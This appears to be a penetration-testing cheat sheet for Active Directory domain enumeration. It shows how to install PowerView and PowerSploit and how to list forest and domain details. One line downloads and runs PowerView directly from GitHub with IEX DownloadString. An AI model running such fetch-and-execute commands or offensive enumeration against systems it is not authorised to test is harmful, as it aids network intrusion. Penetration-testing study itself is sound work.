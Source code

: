 ## ACTIVE DIRECTORY - DOMAIN ENUMERATION

##### POWERVIEW INSTALLATION
```
curl https://github.com/n0ts0cial/oscp/raw/main/Microsoft.ActiveDirectory.Management.dll -Outfile Microsoft.ActiveDirectory.Management.dll
import-module .\Microsoft.ActiveDirectory.Management.dll
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1  -Outfile PowerView.ps1
import-module .\PowerView.ps1
```
```
IEX(New-Object System.Net.WebClient).DownloadString("https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1")
```
CARREGAR A DLL COMO TXT
```
curl https://github.com/n0ts0cial/oscp/raw/main/Import-ActiveDirectory.ps1  -Outfile Import-ActiveDirectory.ps1
Import-module .\Import-ActiveDirectory.ps1
Import-ActiveDirectory
```
##### POWERSPLOIT INSTALLATION
```
curl https://github.com/PowerShellMafia/PowerSploit/archive/refs/tags/v3.0.0.zip -Outfile v3.0.0.zip
curl https://github.com/n0ts0cial/oscp/raw/main/powersploit3.zip -Outfile powersploit3.zip
expand-archive -path ".\powersploit3.zip" -destinationpath ".\"
cd PowerSploit-3.0.0
Import-Module .\PowerSploit.psd1
```
## FOREST
##### LIST - FOREST
```
$MyForest = [System.DirectoryServices.ActiveDirectory.Forest]
$MyForest::GetCurrentForest()
```
##### LIST - FOREST
```
Import-Module activedirectory
$MyForestInfo = Get-ADForest
Write-Host -ForegroundColor Green "Forest Name: $($MyForestInfo.Name)"
Write-Host -ForegroundColor Green "Forest Mode: $($MyForestInfo.ForestMode)"
Write-Host -ForegroundColor Green "Forest Functional Level: $($MyForestInfo.ForestMode)"
Write-Host -ForegroundColor Green "Forest Domains: $($MyForestInfo.domains)"
```
##### FOREST - LIST DETAILS 
```
Get-ADForest
Get-ADForest -identity tech.local 
```
```
Get-NetForest
Get-NetForest -forest tech.local
```
##### FOREST - LIST DOMAINS IN THE FOREST
```
(Get-ADForest).Domains
```
